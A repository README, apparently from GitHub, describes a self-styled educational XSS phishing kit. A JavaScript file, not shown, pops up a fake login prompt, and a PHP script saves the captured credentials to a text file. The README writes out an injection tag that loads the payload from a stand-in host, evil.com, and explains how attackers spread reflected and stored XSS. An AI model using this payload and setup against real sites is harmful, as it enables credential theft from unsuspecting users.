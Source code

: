 # xss (Cross Site Social-engineering)

simple implementasion of social engineering from xss
--for education purpose only--

# about this repository
This repository will tell you how bad xss it is

# content in this repository
x.js
simple javascript payload to trigger user to give them credential's and send them to x.php

x.php
simple php script to receive credential's from x.js and write it to creds.txt

creds.txt
file that store credential's from x.php and x.js

# what is xss ?
Cross-site scripting is a type of computer security vulnerability typically found in web applications. XSS enables attackers to inject client-side scripts into web pages viewed by other users. A cross-site scripting vulnerability may be used by attackers to bypass access controls such as the same-origin policy. --Wikipedia--

An attacker can use XSS to send a malicious script to an unsuspecting user. The end user’s browser has no way to know that the script should not be trusted, and will execute the script. Because it thinks the script came from a trusted source, the malicious script can access any cookies, session tokens, or other sensitive information retained by the browser and used with that site. These scripts can even rewrite the content of the HTML page. --OWASP--

# how it's work ?
```x.js```, ```x.php```, and ```creds.txt``` stored at evil.com then attacker use xss payload
to your website that vulnerable from xss --> ```<script src=https://evil.com/x.js></script>```

if xss reflected, attacker usually use shortlink to avoid suspicion and make the user of your website click into it
if xss stored, attacker usually just wait for the payload triggered from another user

and this will happen

![popup](https://raw.githubusercontent.com/laztname/xss/master/the.gif)

if the user of your website doesn't aware about security then they just believe it and don't know that was a scam accidentally they send their credential to the evil.com

# is xss just pop-up only ?
NO, attacker can use any javascript payload to use your website that vulnerable from xss
for any variation payload see it here http://www.xss-payloads.com/payloads-list.html?a#category=all

# how prevent from xss ?
make sure filter any input from your website and don't forget to strip any html tags

# more information you can get from here
https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)

# special thanks to
- Allah
- my laptop
- surabayahackerlink.org
- xss-payloads.com
